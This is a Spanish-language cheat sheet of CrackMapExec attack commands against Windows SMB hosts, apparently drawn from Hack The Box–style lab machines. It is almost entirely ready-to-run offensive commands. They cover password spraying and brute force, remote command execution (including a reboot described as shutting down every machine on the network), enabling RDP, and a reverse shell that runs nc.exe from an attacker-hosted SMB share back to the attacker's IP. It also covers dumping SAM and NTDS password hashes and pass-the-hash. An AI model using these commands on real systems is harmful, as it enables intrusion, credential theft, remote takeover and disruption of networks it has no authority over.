 ** Ejecutar CrackMapExec en un entorno python virtual **
>Nos colocamos sobre el directorio /opt/CrackMapExec.
>`pipenv shell`
>`cme smb 10.10.10.103 -u <usuario> -p <password>`

** Ejecutar CrackMapExec con Docker **
>`docker pull byt3bl33d3r/crackmapexec`

** Comprobar credenciales con CrackMapExec **
Sobre el protocolo SMB probamos credenciales
`cme smb <ip_objetivo> -u '<usuario>' -p '<contraseña>' -d 'active.htb'`

** Password Spraying **
`crackmapexec smb 10.10.10.228 -u users.txt -p '<contraseña>'`
`crackmapexec smb 10.10.10.228 -u users.txt -p users.txt`

** Fuerza bruta sobre un usuario para identificar password (Password spraying) **
```
cme smb  10.10.10.100 -u 'SVC_TGS' -p password.txt -d 'active.htb'
```

** Escaneo sobre el servicio SMB **
`cme smb <ip_objetivo>`

** Ejecutar comandos con credenciales con CME **
>Obtener usuario
>`cme smb <ip_objetivo> -u '<usuario>' -p '<contraseña>' -x 'whoami'`
>Apagar todos los equipos de la red
>`cme smb <ip_objetivo> -u '<usuario>' -p '<contraseña>' -x 'shutdown /r'`
>Activar RDP
>`cme smb <ip_objetivo> -u '<usuario>' -p '<contraseña>' -M rdp -o action=enable`

** Obtener una shell inversa pasándole primero el binario nc.exe **
>Montar servidor SMB en máquina local con Impacket
>`impacket-smbserver smbFolder $(pwd)`
>Ejecutamos comando en máquina Windows objetivo pasándole el binario nc.exe
>`cme smb <ip_objetivo> -u '<usuario>' -p '<contraseña>' -x '\\<own_ip>\smbFolder\nc.exe' -e cmd <own_ip> 443`

** Obtener las contraseñas de los usuarios a través del fichero SAM **
>SAM (Security Account Manager) de Windows, almacena las contraseñas
>Provee todos los usuarios del sistema y sus contraseñas hasheadas
>El usuario que hace la consulta debe ser del grupo Administrators
>`cme smb <ip_objetivo> -u '<usuario>' -p '<contraseña>' --sam` 

** Obtener todos los hashes de todos los usuarios ** 
`crackmapexec smb 10.10.10.100 -u 's4vitar' -p 's4vitar123' -d 'active.htb' --ntds vss`

** Pass the hash con CME **
El usuario debe estar en el grupo Administrators
`cme smb <ip_objetivo> -u '<usuario>' -H '<LM_hash:NT_hash' -x 'whoami'`

